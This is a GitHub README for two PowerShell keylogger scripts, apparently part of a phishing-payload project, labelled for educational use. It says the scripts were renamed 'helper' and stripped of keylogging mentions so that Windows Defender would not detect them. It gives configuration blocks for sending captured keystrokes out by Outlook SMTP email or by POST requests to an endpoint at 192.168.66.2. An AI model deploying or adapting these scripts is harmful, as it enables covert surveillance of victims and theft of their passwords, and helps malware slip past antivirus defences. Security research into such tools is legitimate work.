 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Powershell - Keylogger scripts

**Note:**
*Scripts are renamed from key-logger to "helper", and the mentions about keyloggings are removed from the code itself as we were researching the possibilities to bypass Windows Defender etc. detection's.*

**Two scripts:**   
 
[helper_mail.ps1](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/keylogger/keylog_ps/helper_mail.ps1) - **WIP, not fully tested for "production" at this point 3.11.23**
- Logs key presses to a file `$env:temp\help.txt` 
- Sends the file to an email address, assigned in the code.

[helper_post.ps1](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/keylogger/keylog_ps/helper_post.ps1)   
- Logs key presses to a file `$env:temp\help.txt` 
- Sends the the key presses as POST requests to server, assigned in the code.
## How to use

**[helper_mail.ps1](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/keylogger/keylog_ps/helper_mail.ps1)**    

Define:
- How many times the loop runs.
- How long is one loop (minutes).   

*Loop = Log to file, send content of file to server as POST request.*    

- From (for example yourself)
- Password
- To (your email of choice)
- Subject
- body
- SMTPServer (Outlook SMTP as an example)
- SMTPPort

```powershell
$TimesToRun = 1
$RunTimeP = 1	# Time in minutes
$From = "ADDRESS"
$Pass = "PASSWORD"
$To = "ADDRESS"
$Subject = "Daily Report"
$body = "Daily Report"
$SMTPServer = "smtp-mail.outlook.com"	# Outlook SMTP
$SMTPPort = "587"
```

## How to use

**[helper_post.ps1](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/keylogger/keylog_ps/helper_post.ps1)**   
**Define:**
- How many times the loop runs.
- How long is one loop (minutes).   

*Loop = Log to file, send content of file to server as POST request.*    

- The endpoint where the server, that accepts the POST requests, is.

```powershell
$TimesToRun = 20                      	# How many times to run the script.
$RunTimeP = 0.1                        	# Runtime in minutes for each run.
$endpoint = "http://192.168.66.2/server"  # Address to send the file to.
```